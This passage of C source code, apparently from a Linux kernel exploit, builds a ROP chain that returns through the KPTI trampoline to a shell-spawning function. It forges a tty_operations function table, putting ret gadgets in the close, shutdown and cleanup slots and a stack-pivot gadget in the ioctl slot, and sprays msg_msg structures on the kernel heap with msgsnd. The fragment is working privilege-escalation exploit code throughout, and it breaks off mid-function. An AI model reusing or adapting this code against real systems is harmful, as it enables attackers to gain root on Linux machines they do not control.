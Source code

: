 ```c
    *rop++ = 0x0; // pop rdi inside kpti_tramp
    *rop++ = (uint64_t)pop_shell; // Return here
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = user_sp;
    *rop   = user_ss;

    /* struct tty_operations {
        struct tty_struct * (*lookup)(struct tty_driver *driver,
                struct file *filp, int idx);
        int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
        void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
        int  (*open)(struct tty_struct * tty, struct file * filp);
        void (*close)(struct tty_struct * tty, struct file * filp);
        void (*shutdown)(struct tty_struct *tty);
        void (*cleanup)(struct tty_struct *tty);
        int  (*write)(struct tty_struct * tty,
                const unsigned char *buf, int count);
        int  (*put_char)(struct tty_struct *tty, unsigned char ch);
        void (*flush_chars)(struct tty_struct *tty);
        unsigned int (*write_room)(struct tty_struct *tty);
        unsigned int (*chars_in_buffer)(struct tty_struct *tty);
        int  (*ioctl)(struct tty_struct *tty,
                unsigned int cmd, unsigned long arg);
        ...
    } */

    // Populate the 12 function pointers in the table that we have created.
    // There are 3 handlers that are invoked for allocated tty_structs when 
    // their controlling process exits, they are close(), shutdown(),
    // and cleanup(). We have to overwrite these pointers for when we exit our
    // exploit process or else the kernel will panic with a RIP of 
    // 0xdeadbeefdeadbeef. We overwrite them with a simple ret gadget
    uint64_t *func_table = (uint64_t *)&msg.mtext[rop_len];
    for (size_t i = 0; i < 12; i++) {
        // If i == 4, we're on the close() handler, set to ret gadget
        if (i == 4) { *func_table++ = ret; continue; }

        // If i == 5, we're on the shutdown() handler, set to ret gadget
        if (i == 5) { *func_table++ = ret; continue; }

        // If i == 6, we're on the cleanup() handler, set to ret gadget
        if (i == 6) { *func_table++ = ret; continue; }

        // Magic value for debugging
        *func_table++ = 0xdeadbeefdeadbe00 + i;
    }

    // Put our gadget address as the ioctl() handler to pivot stack
    *func_table = push_rdx;

    // Spray msg_msg's on the heap
    if (msgsnd(curr_q, &msg, MSG_SZ, IPC_NOWAIT) == -1) {
        fails++;
    }

    return fails;
}

// Check to see if we have a reference to one of our msg_msg structs
bool found_msg(int fd) {
    // Read out the msg_msg
    unsigned char msg_buf[GBUF_SZ] = { 0 };
```
